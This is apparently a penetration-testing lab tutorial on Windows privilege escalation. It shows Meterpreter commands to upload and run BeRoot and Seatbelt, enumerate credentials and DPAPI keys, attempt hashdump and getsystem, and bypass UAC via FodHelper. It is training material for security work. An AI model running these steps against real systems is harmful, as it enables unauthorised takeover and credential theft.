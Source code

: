 
BeRoot is a privilege escalation tools, which allow you to run a configuration assessment on a target system to find out information about its underlying vulnerabilities, services, file and directory permissions, kernel version, architecture, as well as other data. Using this information, you can find a way to further exploit and elevate the privileges on the target system.


	meterpreter > upload /home/attacker/Desktop/BeRoot/beRoot.exe
	meterpreter > shell
	beRoot.exe
	
You can find further vulnerabilities in the resulting services and attempt to exploit them to escalate your privileges in the target system.

Note: Windows privileges can be used to escalated privileges. These privileges include SeDebug, SeRestore & SeBackup & SeTakeOwnership, SeTcb & SeCreateToken, SeLoadDriver, and SeImpersonate & SeAssignPrimaryToken. BeRoot lists all available privileges and highlights if you have one of these tokens.


Now we will use GhostPack Seatbelt tool to gather host information and perform security checks to find insecurities in the target system.


	exit
	meterpreter > upload /home/attacker/Desktop/Seatbelt.exe
	shell
	Seatbelt.exe -group=system		# gather information about AMSIProviders, AntiVirus, AppLocker etc.
	Seatbelt.exe -group=user		# gather information about ChromiumPresence, CloudCredentials, CloudSyncProviders, CredEnum, dir, DpapiMasterKeys etc.
	Seatbelt.exe -group=misc		# gather information about ChromiumBookmarks, ChromiumHistory, ExplicitLogonEvents, FileInfo etc.
	exit

A lot more of other SeatBelt commands exist.


Another method for performing privilege escalation is to bypass the user account control setting (security configuration) using an exploit, and then to escalate the privileges using the Named Pipe Impersonation technique.


Check our current system privileges :

	meterpreter > run post/windows/gather/smart_hashdump
Note: You will not be able to execute commands (such as hashdump, which dumps the user account hashes located in the SAM file, or clearev, which clears the event logs remotely) that require administrative or root privileges (Insufficient privileges to dump hashes!).

Attempts to elevate the user privileges:

	meterpreter > getsystem -t 1	# Uses the service – Named Pipe Impersonation (In Memory/Admin) Technique.
	
The command fails to escalate privileges and returns an error stating Operation failed.


try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.

Note: In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a bypassuac_fodhelper exploit:

